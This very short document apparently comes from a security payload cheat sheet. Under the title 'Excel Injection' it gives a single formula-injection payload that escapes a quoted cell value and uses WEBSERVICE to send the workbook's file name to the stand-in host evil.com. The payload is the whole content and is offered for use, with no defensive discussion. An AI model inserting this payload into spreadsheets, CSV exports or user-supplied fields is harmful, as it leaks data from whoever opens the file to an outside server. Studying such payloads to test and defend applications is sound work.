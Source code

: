 Excel Injection

# Excel Injection

Inject into excel formulas: 
```
"&WEBSERVICE("http://evil.com/"&CELL("Filename",A1))&"
```